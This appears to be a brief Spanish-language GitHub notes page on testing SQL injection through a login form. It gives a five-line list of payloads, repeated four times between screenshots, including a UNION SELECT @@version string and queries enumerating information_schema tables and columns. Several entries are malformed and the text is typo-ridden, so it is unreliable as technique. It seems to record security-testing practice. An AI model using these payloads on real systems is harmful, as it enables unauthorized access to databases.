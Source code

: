 prueba de inyesiones sql
![image](https://github.com/Echavarriad/Doc/assets/76740912/ec9d2385-1144-4567-849b-78f7bc66f018)

atravez de los campos del formulario de login se realizaron diferentes medio de princilapmnete realizado querys sql apuntanto a diferntes tablas tenineod el conocimiento de estas

querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'

![image](https://github.com/Echavarriad/Doc/assets/76740912/4d8276e1-419c-47f6-8571-97cec374e180)
querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'

![image](https://github.com/Echavarriad/Doc/assets/76740912/a6a2c08c-9873-44a4-b477-cced4321effb)

querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'


![image](https://github.com/Echavarriad/Doc/assets/76740912/da99f522-0903-4125-a622-c1d7893ef9cc)

querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'
